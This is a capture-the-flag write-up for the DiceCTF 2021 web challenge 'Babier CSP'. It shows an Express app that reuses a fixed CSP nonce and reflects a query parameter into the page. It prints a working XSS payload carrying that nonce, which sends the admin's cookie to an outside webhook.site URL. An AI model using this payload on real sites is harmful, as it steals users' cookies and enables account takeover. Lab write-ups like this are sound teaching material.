




# Babier CSP

- CTF: DiceCTF 2021
- Category: Web


## Instructions

[Baby CSP](https://2020.justctf.team/challenges/14) was too hard for us, try Babier CSP.

[babier-csp.dicec.tf](babier-csp.dicec.tf)

[Admin Bot](https://us-east1-dicegang.cloudfunctions.net/ctf-2021-admin-bot?challenge=babier-csp)

The admin will set a cookie `secret` equal to `config.secret` in index.js.

```js
const express = require('express');
const crypto = require("crypto");
const config = require("./config.js");
const app = express()
const port = process.env.port || 3000;

const SECRET = config.secret;
const NONCE = crypto.randomBytes(16).toString('base64');

const template = name => `
<html>

${name === '' ? '': `<h1>${name}</h1>`}
<a href='#' id=elem>View Fruit</a>

<script nonce=${NONCE}>
elem.onclick = () => {
  location = "/?name=" + encodeURIComponent(["apple", "orange", "pineapple", "pear"][Math.floor(4 * Math.random())]);
}
</script>

</html>
`;

app.get('/', (req, res) => {
  res.setHeader("Content-Security-Policy", `default-src none; script-src 'nonce-${NONCE}';`);
  res.send(template(req.query.name || ""));
})

app.use('/' + SECRET, express.static(__dirname + "/secret"));

app.listen(port, () => {
  console.log(`Example app listening at http://localhost:${port}`)
});
```

## Analysis

The name query param seems allows XSS



Key element is `<script nonce=${NONCE}>`. This ensures no script tags can not introduced by some malicious third party. However, as this is hard coded, it allows us to inject malicious script tag as long as we use the same `nonce` value.

We can now submit the following script to the Admin bot:

```html
<script nonce="LRGWAXOY98Es0zz0QOVmag==">document.location="https://webhook.site/768da366-9c5e-4d86-9140-8afb55ccbd1b?c="+document.cookie;</script>
```

The callback should have a `c` query param with the cookie `secret` set by the admin.



We can now visit the `/4b36b1b8e47f761263796b1defd80745` page



And view it source reveals the flag


